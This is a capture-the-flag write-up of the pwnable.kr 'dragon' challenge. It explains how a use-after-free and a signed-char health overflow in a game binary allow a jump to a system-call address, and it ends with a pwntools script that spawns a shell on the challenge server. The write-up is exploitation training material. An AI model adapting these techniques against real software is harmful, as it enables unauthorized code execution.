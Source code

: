 # Dragon writeup

This is the challenge named dragon from [pwnable.kr](http://pwnable.kr/play.php)
Writeup by Amit Shmuel

### Problem

I made a RPG game for my little brother.
But to trick him, I made it impossible to win.
I hope he doesn't get too angry with me :P!

Author : rookiss
Download : http://pwnable.kr/bin/dragon

Running at : nc pwnable.kr 9004

### Solution

After playing around with the binary a bit we can see it's a pretty straight forward battling system with alternating battles against the mama and baby dragons but it seems quite impossible to win against the dragons as the problem description would suggest.

Let's open the binary in Ghidra. Out of the gate we immediately notice a few important functions. In the SecretLevel function we can see this code:

![SecretLevel](imgs/SecretLevel.png)

But &DAT_0804932f is %10s so we can't write the whole password into the variable because it's longer than 10 characters. That means we either have to find a way to jump to the system call or we need to find a way to get an arbitrary write of 1 byte so we can change %10s to %90s.

The main game function which deals with the game logic is called DragonFight, the function allocates and sets the player stats and the enemy stats and it has 2 functions it uses called PriestAttack and KnightAttack for the battle mechanics. The obvious exploit is in these areas is that in the PriestAttack and KnightAttack functions we free the enemy stats heap chunk as seen here:

![free](imgs/free.png)

And if we win we get to enter our name (to overwrite the previous buffer data) and call a function which was in that chunk:

![FightDragon](imgs/FightDragon.png)

That means that if we win we can arbitrarily jump to any code and that means we can jump to the system call! Hooray! or is it? Because that means we need to win the game which the programmer made impossible (and countless tries from me made sure it is). So how can we win? Well we take advantage of integer overflows! You might have noticed that in the picture where we free the enemy stats we also check it's health and it's health is a signed char, that means that if it's health gets over 127 it flips to negative and that means we win (because it's reeeaaally dead now). 

The dragons have a health regeneration, the baby dragon regenerates +5 HP per round and the mama dragon generates +4 HP per round, but because the baby dragon is more powerful and has less health it will kill us way before we overflow it, so the mama dragon it is. But how can we not die you ask? Well if we look at the Priest abilities we can see it can block attacks at the cost of 25 mana, and if we do Block Block Refresh mana 4 times it turns out to be just enough to overflow and kill the mama dragon:

![mana](imgs/mana.png)

And as we expected we won after using HolyShield HolyShield Clarity 4 times:

![won](imgs/won.png)

Now we're left with entering the 16 bytes which the first 4 bytes of are the address which we jump to (needs to be set to 0x8048dbf which is the address of the system call). Just to make sure which of the bytes control the address I ran the program in gdb and put in AAAABBBBCCCCDDDD and got that it tried to jump to 0x41414141 which means the hypothesis was correct!

Now all that's left is to package it in a neat pwntools script:

```python
from pwn import *

sh = remote("pwnable.kr", 9004)

binsh = p32(0x8048dbf)

sh.sendline("2") # Pick Knight
sh.sendline("2") # Die as knight

sh.sendline("1") # Pick priest

for _ in range(4):
    sh.sendline("3") # Block
    sh.sendline("3") # Block
    sh.sendline("2") # Refresh mana

sh.recvuntil("Well Done Hero! ")
print(sh.recvuntil("As:"))
sh.sendline(binsh)
sh.interactive() # Now send 'cat flag' to get the flag
```

Hope you had fun reading this writeup!